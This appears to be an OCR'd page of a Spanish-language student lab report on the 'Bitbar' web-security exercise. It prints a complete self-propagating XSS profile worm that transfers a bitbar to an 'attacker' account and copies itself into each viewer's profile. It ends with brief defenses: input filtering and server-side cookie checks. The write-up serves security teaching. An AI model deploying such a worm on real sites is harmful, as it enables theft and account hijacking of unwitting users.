 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsection{Profile Worm}
El objetivo del ataque es crear un XSS que se propague por los usuarios. El código se escribe en el profile del atacante. Cuando
un usuario ve el profile del atacante, se le transfiere 1 bitbar al atacante y se cambia el profile del usuario al mismo que tiene el
atacante. De esta forma el XSS se va propagando. La solución es la siguiente:

\begin{lstlisting}
<span id="s">
<span id="bitbar_count" class="eval(document.getElementById('x').innerHTML)"></span>
<span id="x">
	var req = new XMLHttpRequest();
	var params1 = "destination_username=attacker&quantity=1";
	params1 = params1.replace('amp;', '');
	req.open("POST", "http://localhost:3000/post_transfer");
	req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
	req.withCredentials = true;
	req.send(params1);
	var req2 = new XMLHttpRequest();
	var params2 = "new_profile=".concat(escape(document.getElementById('s').outerHTML));
	req2.open('POST', 'http://localhost:3000/set_profile');
	req2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
	req2.withCredentials = true;
	req2.send(params2);
</span>
</span>
\end{lstlisting}

En esta parte de la web no se puede poner la etiqueta \textit{<script>}. Lo que se hace es sobreescribir la etiqueta span con la id
bitbar\_count y poner en su clase el script en formato inline. Se hace la transferencia y se cambia el profile de la victima con el
mismo script.

\section{Defensas}
\subsection{Cookie Theft}
Se modifica el archivo user\_controller.rb. Antes de enviar la petición se filtra la entrada, eliminando de ella patrones sospechosos como <script>, GET, cookie, etc.
\subsection{Session Hijacking with Cookies}
Se guarda las cookies en el servidor y se las compara con las cookies actuales del usuario.
\end{document}
